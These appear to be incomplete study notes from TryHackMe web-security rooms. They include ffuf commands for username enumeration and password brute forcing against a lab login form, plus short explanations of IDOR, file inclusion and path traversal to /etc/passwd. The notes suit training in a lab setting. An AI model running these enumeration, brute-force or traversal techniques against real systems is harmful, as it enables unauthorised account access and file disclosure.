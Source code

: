 #### Wordlist 
ffuf - looking for valid usernames based on a wordlist and the error message when signing in with a present name:

```shell-session
user@tryhackme$ ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.38.35/customers/signup -mr "username already exists"
```

Attempting a brute force attack on the website with the username found in the previous action:
```shell-session
user@tryhackme$ ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.38.35/customers/login -fc 200
```

#### Logic Flaw 

#### Cookie Tampering

# Room 6
### IDOR
IDOR stands for Insecure Direct Object Reference and is a type of access control vulnerability.  

This type of vulnerability can occur when a web server receives user-supplied input to retrieve objects (files, data, documents). Too much trust has been placed on the input data, and it is not validated on the server-side to confirm the requested object belongs to the user requesting it.

- It's like when I have a URL that shows something like user_id=1000. If I change the value to 1001 and I get access to the user with ID 1001, then that's an IDOR vulnerability.
- Sometimes we find that the URL is encoded. One way to exploit this is to decode it, find the variable, change it, encode it again, and send the request.
![[encode-decode.png]]
- The variables can also be hashed, which makes it difficult, but if the variable was only some sort of number, then you can reverse it.

# Room 7
### File Inclusion
File inclusion vulnerabilities occur when a web application allows user input to control which files are included or executed on the server, potentially allowing attackers to access unauthorized files or execute malicious code.
Local File Inclusion (LFI), Remote File Inclusion (RFI), and directory traversal.

##### Path Traversal
Path traversal occurs when the attacker abuses the get_file function and accesses files that are not meant to be visible, like `/etc/passwd`, using path traversal sequences like `../../`.

Here are some files that can be restricted for access:

